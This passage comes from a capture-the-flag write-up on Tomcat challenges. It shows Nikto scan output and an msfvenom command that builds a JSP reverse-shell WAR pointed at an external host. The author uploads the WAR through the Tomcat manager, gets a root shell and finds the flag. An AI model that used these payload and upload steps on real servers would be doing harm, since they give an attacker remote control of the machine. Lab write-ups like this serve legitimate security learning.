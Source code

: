 ```bash
+ /manager/status: Tomcat Server Status interface found (pass protected)
+ 7625 requests: 0 error(s) and 14 item(s) reported on remote host
+ End Time:           2022-12-09 23:18:06 (GMT1) (2030 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

I generated a payload with `msfvenom`:
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=193.161.193.99 LPORT=24193 -f war > reverseshell.war
```

I opened the file with `vim` to see the content:
```bash
vim reverseshell.war 

" zip.vim version v32
" Browsing zipfile /home/kilian/reverseshell.war
" Select a file and press ENTER

WEB-INF/
WEB-INF/web.xml
ojpbwdjo.jsp
```

I uploaded it using the form on the management page.
I opened `play.h4ck3r.one:9004/reverseshell/ojpbwdjo.jsp` and I got my shell and we are root!

I used `find / -iname 'flag*'` to find the flag in `/usr/local/tomcat/conf/FLAG.txt`.

### Jenny

I started by running `nikto`:
```bash
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          137.116.255.41
+ Target Hostname:    play.h4ck3r.one
+ Target Port:        9003
---------------------------------------------------------------------------
+ SSL Info:        Subject:  /CN=play.h4ck3r.one
                   Altnames: play.h4ck3r.one
                   Ciphers:  TLS_AES_256_GCM_SHA384
                   Issuer:   /C=US/O=Let's Encrypt/CN=R3
+ Start Time:         2022-12-10 00:05:07 (GMT1)
---------------------------------------------------------------------------
+ Server: nginx/1.14.0 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The site uses SSL and the Strict-Transport-Security HTTP header is not defined.
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ The Content-Encoding header is set to "deflate" this may mean that the server is vulnerable to the BREACH attack.
+ Server leaks inodes via ETags, header found with file /favicon.ico, fields: 0xW/21630 0x1465480610000 
+ OSVDB-39272: favicon.ico file identifies this server as: Apache Tomcat
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ Cookie JSESSIONID created without the secure flag
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ /manager/html: Default Tomcat Manager / Host Manager interface found
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /docs/: Tomcat Documentation found
```
